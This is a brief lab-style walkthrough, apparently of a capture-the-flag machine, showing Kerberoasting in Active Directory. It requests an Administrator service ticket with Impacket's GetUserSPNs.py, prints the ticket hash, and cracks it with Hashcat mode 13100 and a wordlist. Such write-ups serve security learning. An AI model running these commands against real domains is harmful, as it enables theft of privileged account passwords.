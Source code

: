 # Microsoft Windows AD Kerberos Tickets
We can use Impacket to gather a valid kerberos ticket with the following command,
```
root@attacker-machine:~# GetUserSPNs.py -request (HOST.DOMAIN)/(VALID SMB USER):(USER PASSWORD)
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
--------------------  -------------  --------------------------------------------------------  -------------------  -------------------
host/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=host,DC=domain  2018-07-18 15:06:40  2018-07-30 13:17:40 



$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$823

...(SNIPPED)...

root@attacker-machine:~#
```
## Cracking the Kerberos Ticket
We can use Hashcat to crack the kerberos ticket with the following arguments:
* `-a 0` - Straight cracking mode
* `-m 13100` - Hashtype 13100 - which is `Kerberos 5 TGS-REP etype 23 `
* the kerberos.ticket file
* `-w 3` - Suggested example "workload" setting for Hashcat

So, from the above output, we place the `$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$823`... string into a file and name it kerberos.ticket. Next, we call Hashcat using the arguments above, like so,
```
PS C:\Users\weaknet\Desktop\hashcat-5.1.0> .\hashcat64.exe -m 13100 -a 0 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\kerberos.tick
et' -w 3 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\rockyou.txt'
hashcat (v5.1.0) starting...
```
This is shown in my host OS, since the VMware has no access to the GPU.
